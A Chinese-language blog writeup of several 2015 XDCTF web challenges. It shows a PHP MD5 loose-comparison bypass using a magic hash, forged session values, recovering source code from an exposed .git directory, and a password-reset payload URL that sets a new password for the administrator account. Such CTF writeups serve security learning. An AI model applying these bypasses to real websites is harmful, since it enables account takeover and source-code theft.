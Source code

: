 title: 2015XDCTF低分web题writeup
date: 2015-10-03 14:11:30
tags: CTF
categories: H-blog 
---
![xdctf](http://7xscw6.com1.z0.glb.clouddn.com/hexo-xdctf.png)

<!--more-->
国庆两天, XDCTF, 质量和难度和上次的NSCTF都不是一个层次的...

## web1 100
`index.php~` 搞出源码:
```
<?php
$test=$_GET['test'];
$test=md5($test); 
if($test=='0') { 
    print "flag{xxxxxx}"; 
} else 
    print "you are falied!"; 
print $test;
echo "tips:知道原理了，请不在当先服务器环境下测试，在本地测试好，在此测试poc即可，否则后果自负"; 
?>
```
这题黑魔法啊!!! 真是学习了
`md5('240610708') = 0e462097431906509019562988736854`
而 `'0e462097431906509019562988736854' == '0'`

## web1 200
这题是大JAVA的题目,  可惜并不会,, 就是有个一个SessionExample界面, 可以进行设置session, (为啥需要这种东西?)
然后设置, login=true, user=Administrator

## web2 系列..
P神出的代码审计4连套, PS: P神写的站, 给你代码你也日不动~~
只搞定两题..

### web2 200
第一步是搞到源码, 题目里说了用git管理源码, 所以应该是.git 泄露了... 访问 /.git 403, 果然是....

去百度后下载了 `rip-git.pl` ,拖/.git, 拖下来了, 却不能还原源码, 估计有些重要的没拖下来..

接下来是:
```
$ git checkout master
$ git checkout -f
```
搞出来了个 `README.md`
根据里面的提示, 去网站上搞到了个 /.git/refs/tags/1.0
然后把 /.git/refs/heads/master 的hash 值用 /tags/1.0 里的hash替换
再 `$ git checkout -f`
然后就搞到源码了, 第一个200的flag就在index.php里..

### web2 100
存在强制修改任意用户密码漏洞, 管理员邮箱在首页: xdsec-cms@xdctf.com
```
payload: 
http://xdsec-cms-12023458.xdctf.win/index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[1]=aa
```
修改密码后登录, get 100 flag...

后面就日不动了,,, 毕竟P神...
XDCTF的web题质量都挺高的...学到了很多..